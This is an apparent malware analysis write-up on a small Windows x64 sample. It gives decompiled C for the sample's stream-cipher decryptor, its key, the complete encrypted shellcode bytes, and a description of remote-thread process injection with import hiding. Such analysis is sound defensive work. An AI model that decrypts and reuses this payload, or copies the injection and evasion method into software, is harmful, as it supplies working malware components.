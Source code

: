 # Analysis of a shellcode

```
func_pointer.bin64: PE32+ executable (console) x86-64 (stripped to external PDB), for MS Windows, 11 sections
SHA256: edd41b4a819f917f81203424730aaf0c24cc95e40acfc0f1bd90b11dadf58015
```

## Basic static analysis

The sample is only 24 kB and targeting x64 Windows systems. It is probably not packed or heavily obfuscated, at least not in a way that significantly expands its file size. A small size often suggests either a very simple piece of malware, a loader/dropper that downloads a larger payload, or a highly optimized and potentially assembly-heavy piece of code. This small footprint also implies it might not contain a large amount of embedded resources or complex libraries. Therefore, we should be able to begin direct analysis of its code without extensive unpacking efforts.

Opening the file in Die [](assets/die_compiler.png), we see that the the program has been written in C/C++, using MinGW compiler. We can even retrieve the compilation timestamp (in pestudio or CFF Explorer): `2023-04-06 15:21:17`.

## Detailed static analysis

After a series of initialization (code automatically added by MinGW), an encrypted payload is decrypted. The algorithm used is a stream cipher, derivating 3 keys from an original one, and XORing the source with a calculus made from these 3 keys, `BYTE` by `BYTE`. The key used here is `"UUUUUUUU"`.

```c
__int64 __fastcall stream_cipher(char *key, int key_length, _BYTE *src, int src_length, _BYTE *dest)
{
  __int64 result; // rax
  int next_key; // [rsp+10h] [rbp-20h]
  int k; // [rsp+14h] [rbp-1Ch]
  char XOR_key; // [rsp+1Bh] [rbp-15h]
  int j; // [rsp+1Ch] [rbp-14h]
  int i; // [rsp+20h] [rbp-10h]
  unsigned int key3; // [rsp+24h] [rbp-Ch]
  unsigned int key1; // [rsp+28h] [rbp-8h]
  unsigned int key0; // [rsp+2Ch] [rbp-4h]

  key0 = 0;
  key1 = 0;
  key3 = 0;
  for ( i = 0; i <= 63; ++i )                   // iterates 64 times to generates 3 keys derivated from original one
  {
    key0 = (2 * key0) | ((unsigned __int8)((key1 >> 21) ^ (key0 >> 18) ^ ((int)(unsigned __int8)key[i % key_length] >> (i / 8))) ^ (unsigned __int8)(key3 >> 22)) & 1;
    key1 = (2 * key1) | (key0 >> 8) & 1;
    key3 = (2 * key3) | (key1 >> 10) & 1;
  }
  for ( j = 0; ; ++j )
  {
    result = (unsigned int)j;
    if ( j >= src_length )
      break;
    next_key = (((key1 >> 10) ^ (unsigned __int8)(key3 >> 10)) & BYTE1(key0) ^ (key1 >> 10) & (unsigned __int8)(key3 >> 10)) & 1;
    XOR_key = 0;
    for ( k = 0; k <= 7; ++k )
    {
      XOR_key |= ((((key1 >> 21) ^ (unsigned __int8)(key3 >> 22)) & (unsigned __int8)(key0 >> 18) ^ (key1 >> 21) & (unsigned __int8)(key3 >> 22)) & 1 ^ next_key) << k;
      key0 = (2 * key0) | (((key1 >> 21) ^ (unsigned __int8)(key3 >> 22)) & (unsigned __int8)(key0 >> 18) ^ (key1 >> 21) & (unsigned __int8)(key3 >> 22)) & 1 ^ next_key;
      key1 = (2 * key1) | (key0 >> 8) & 1;
      key3 = (2 * key3) | (key1 >> 10) & 1;
    }
    dest[j] = XOR_key ^ src[j];
  }
  return result;
}
```

The encrypted data is as follows:

```
encrypted_payload db  8Dh,   9, 8Dh, 59h,0A0h, 1Fh, 83h, 0Ah, 9Eh, 86h, 28h,0B9h,0CAh, 73h,0E2h,0D7h, 1Dh
                                        ; DATA XREF: main+84↑o
                db  38h, 3Dh, 30h, 94h,0D5h,0FEh, 7Dh,0D0h, 32h, 64h,0D3h,0F5h, 0Fh, 29h, 3Eh, 95h,0ABh
                db  9Ch, 38h, 4Ch, 3Eh,0CBh,0E0h,0D3h,0CAh, 6Dh, 2Bh,0E2h, 59h, 18h,0FFh, 9Fh, 67h, 63h
                db  97h,0F9h, 9Bh, 54h,   6, 6Fh,0FCh,0E9h, 17h, 78h, 87h, 61h,0EAh,0CCh, 24h,   9, 49h
                db  80h,0E8h,0FFh,   0,0D1h,0D3h,0BAh, 5Ch, 2Fh, 72h,   1, 3Bh,0A2h, 0Ah, 74h,   9, 0Bh
                db 0C2h, 6Ch, 1Bh,   2, 0Ch, 14h,0A4h, 20h, 69h, 80h,0E9h, 3Ch, 27h,   9, 0Bh,0C2h,   2
                db 0AEh,   9,0CCh, 0Ch, 9Ah, 64h,0AAh, 45h,   9,   1, 49h, 91h,0E9h, 4Eh, 1Ah, 6Fh, 4Bh
                db 0BAh, 55h, 2Fh, 14h,0A9h, 4Dh, 28h, 9Eh,   5, 70h,0C3h, 5Ah, 63h, 50h, 2Eh,0C5h,0D5h
                db  6Dh, 2Dh, 60h,   4,0E8h, 70h,0A8h, 34h,0FBh, 2Ch, 1Eh, 93h,0CEh,0A0h, 1Ch,0E1h, 19h
                db 0F0h, 70h,0FFh, 10h, 76h,   5, 81h, 52h, 76h,0D9h, 83h, 54h, 72h, 9Ah, 61h,0AAh,   9
                db  61h, 76h, 0Ch,0CAh, 4Ah, 0Eh, 1Bh, 91h, 52h,0BAh, 55h, 2Fh, 24h,0A9h, 4Dh, 28h, 98h
                db    9, 19h, 4Bh, 4Ah, 0Ch,0C9h,0D8h,0C5h, 4Ch,0E5h, 79h, 60h, 5Fh, 61h,0CBh,0A4h, 61h
                db  4Bh, 40h,0ADh, 70h,0DAh,0C5h, 4Dh,0FEh, 1Eh, 69h, 8Eh, 3Bh,0A1h,   1,0BEh,0F5h,0EDh
                db  0Fh,0D9h, 45h, 45h, 14h,0A4h, 20h, 21h, 3Bh, 61h,0C5h,0DDh, 5Bh, 0Bh, 12h, 52h,0AEh
                db 0CEh,   9, 91h, 91h, 21h, 21h,   5, 61h, 79h, 81h,   0,0B0h, 57h,0D1h,0C6h, 85h, 7Bh
                db 0C1h, 1Fh,0C0h, 3Ch, 2Fh, 23h,   9,0F2h,0E7h, 9Fh,0AFh,0CFh, 6Fh, 57h,0CCh, 97h, 60h
                db    8, 1Dh,   3, 55h, 42h,0C8h,0BAh,0EAh, 67h, 57h, 2Bh,0C5h, 97h, 66h,0CBh, 4Ah, 21h
                db  5Ch, 68h,0C1h, 92h,0BEh,0DFh, 5Ah,   6,0D2h,0A2h,0D4h, 43h,0EAh,   0, 74h, 25h, 6Bh
                db  2Dh, 68h,   9, 6Bh, 62h, 22h,0E9h,0A2h, 84h, 14h,0A4h, 20h, 21h,   5, 29h, 48h,   0
                db  15h, 48h, 28h, 72h,0DDh,0E3h,0E8h, 46h,0C1h, 56h, 21h, 95h,0B9h
```

All sensitive function are loaded at runtime to avoid being detected in the imports. The PID of the running process launched by `explorer.exe` is retrieved, to then allocate memory remotely (`VirtualAllocEx`), write the decoded payload (`WriteProcessMemory`) and execute the code as a remote thread (`CreateRemoteThread`). 


